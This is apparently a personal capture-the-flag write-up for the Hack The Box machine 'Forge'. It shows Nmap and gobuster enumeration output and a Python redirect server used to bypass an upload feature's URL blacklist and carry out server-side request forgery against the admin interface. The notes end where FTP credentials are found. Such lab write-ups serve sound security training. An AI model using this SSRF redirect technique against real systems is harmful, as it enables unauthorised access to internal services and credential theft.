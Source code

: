 
== Introduction ==

== Enumeration ==

=== Nmap ===

{{{class="nohighlight"
# Nmap 7.92 scan initiated Wed Jul 27 18:34:26 2022 as: nmap -sS -sCV -oA scans/nmap/init 10.10.11.111
Nmap scan report for 10.10.11.111
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 27 18:34:35 2022 -- 1 IP address (1 host up) scanned in 9.23 seconds
}}}

- nmap does not follow redirect to http://forge.htb, add it to /etc/hosts and run gobster vhost
    - ftp is also filtered, yay

{{{class="nohighlight"
trent@kali[Forge]$ cat /etc/hosts
...
10.10.11.111    forge.htb admin.forge.htb
...
}}}

{{{class="nohighlight"
trent@kali[Forge]$ gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/27 18:49:01 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]

===============================================================
2022/07/27 18:49:25 Finished
===============================================================
}}}

{{local:../images/forge/website/admin/only_localhost_allowed.png|Admin interface only available on localhost}}

{{local:../images/forge/website/homepage.png|Homepage for http://forge.htb}}

- http://forge.htb/upload can be used to upload images by file or url
- uploading by url and making it callback to a netcat listener shows the request was made by
  python-requests/2.25.1

{{local:../images/forge/website/upload_from_url.png|Upload from url}}
{{local:../images/forge/website/python_requests_callback.png|python-requests version}}

- url uploads only accept http/https

[[local:../images/forge/website/forge_htb_blacklisted_url_uploads.png|Blacklist protocols]]

- Cant make requests to http://forge.htb or http://admin.forge.htb

[[local:../images/forge/website/forge_htb_blacklisted_url_uploads.png|Blacklisted urls]]

- we can get around the blacklist by redirecting to where we actually want to go

- [ ] TODO - Write a script that does this whole ssrf thing without pain and suffering
{{{python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
}}}

- We cant see the site in the browser cause it tries to render the page as a jpg, but we can see the
  html in Burpsuite

{{local:../images/forge/website/admin/homepage_html_via_ssrf_redirect.png|Successful ssrf attack}}

- we have found some ftp creds, yay

{{local:../images/forge/website/admin/ftp_credentials.png|FTP credentials}}

